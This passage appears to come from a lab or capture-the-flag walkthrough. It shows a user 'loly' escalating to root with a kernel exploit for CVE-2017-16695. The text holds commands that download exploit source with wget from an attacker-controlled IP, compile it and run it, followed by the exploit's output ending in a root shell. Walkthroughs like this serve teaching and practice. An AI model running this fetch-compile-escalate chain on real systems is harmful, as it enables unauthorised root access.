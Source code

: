 > Lets try `CVE-2017-16695`
{: .prompt-info }

We upload the exploit the same way we uploaded `linpeas`.  
```bash
loly@ubuntu:/tmp$ wget 192.168.45.186/45010.c
wget 192.168.45.186/45010.c
--2023-08-14 11:33:38--  http://192.168.45.186/45010.c
Connecting to 192.168.45.186:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 13176 (13K) [text/x-csrc]
Saving to: ‘45010.c’

45010.c             100%[===================>]  12.87K  --.-KB/s    in 0.007s  

2023-08-14 11:33:38 (1.70 MB/s) - ‘45010.c’ saved [13176/13176]
```

Compile and execute.
```bash
loly@ubuntu:/tmp$ gcc 45010.c -o pe
gcc 45010.c -o pe
loly@ubuntu:/tmp$ ls
ls
45010.c
linpeas.sh
linux-exploit-suggester-2.pl
pe
systemd-private-ff615ae5591f4434acd89932d9e7b029-systemd-timesyncd.service-LrymyF
VMwareDnD
vmware-root
loly@ubuntu:/tmp$ ./pe
./pe
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff880034a62100
[*] Leaking sock struct from ffff880035e64b40
[*] Sock->sk_rcvtimeo at offset 472
[*] Cred structure at ffff88007bf32000
[*] UID from cred structure: 1000, matches the current: 1000
[*] hammering cred structure at ffff88007bf32000
[*] credentials patched, launching shell...
# id
id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),30(dip),46(plugdev),114(lpadmin),115(sambashare),1000(loly)
```

